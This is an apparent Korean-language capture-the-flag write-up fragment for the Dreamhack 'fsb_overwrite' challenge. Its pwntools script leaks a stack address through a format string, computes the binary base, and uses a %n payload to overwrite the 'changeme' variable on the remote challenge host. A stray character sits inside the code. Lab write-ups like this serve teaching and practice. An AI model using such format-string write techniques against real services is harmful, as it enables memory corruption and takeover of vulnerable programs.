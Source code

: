따라서, `buf`에는 `%1337c%8$n` + `p64(addr_changeme)` 를 저장해주면 된다.

```
from pwn import *

# p = process("./fsb_overwrite")
p = remote("host3.dreamhack.games", 8643)
elf = ELF("./fsb_overwrite")

payload = b"%15$p"  # [rsp + 0x48] 에 저장된 주소를 읽어오기 위함
p.send(payload)

binary_base = int(p.recvline()[:-1], 16) - 0x1293  # [rsp + 0x48]에서 읽어온 주소에서 해당 주소의 오프셋을 빼주어서 바이너리의 베이스 주소를 구함
# addr_changeme = binary_base + elf.symbols['changeme']
addr_changeme = binary_base + 0x401c  # 바이너리의 베이스 주소에서 changeme 변수의 오프셋을 더해줌
ㄴ
payload = b"%1337c%8$n".ljust(16)  # 6번째 인자가 [rsp]이므로, [rsp + 0x10] 은 8번째 인자
payload += p64(addr_changeme)

p.send(payload)
p.interactive()
```

